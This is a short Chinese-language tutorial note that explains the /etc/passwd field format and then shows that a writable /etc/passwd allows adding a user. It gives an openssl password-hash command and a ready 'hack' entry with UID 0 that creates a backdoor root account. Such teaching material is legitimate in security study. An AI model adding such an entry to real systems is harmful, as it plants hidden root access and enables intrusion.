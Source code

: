 `用户名:密码占位符:用户ID:组ID:用户描述信息:家目录:登录Shell`

- 用户名：不能为空
- 密码占位符：
  - `x`：表示密码存储在`/etc/shadow`文件中
  - `空白`：表示用户未设置密码
  - `*`：表示禁止通过密码登录，通常用于系统服务账户（如 `nobody`、`www-data`）
- 家目录：用户登录后的默认工作目录
- 登录 Shell：用户登录后默认使用的 Shell

<https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/>

![linux-etc-passwd-format](../images/linux-etc-passwd-format.webp)

如果有权限修改 `/etc/passwd` 文件，则可以新建用户。

```bash
$ openssl passwd 123456
$1$pZLeoQJV$2Cmive6ZNPitgNUVqYVym0
```

hack:$1$pZLeoQJV$2Cmive6ZNPitgNUVqYVym0:0:0::/root:/bin/bash

```bash
$ ls -l /etc/shadow
-rw-r----- 1 root shadow 1088 Jul 30 08:01 /etc/shadow
```
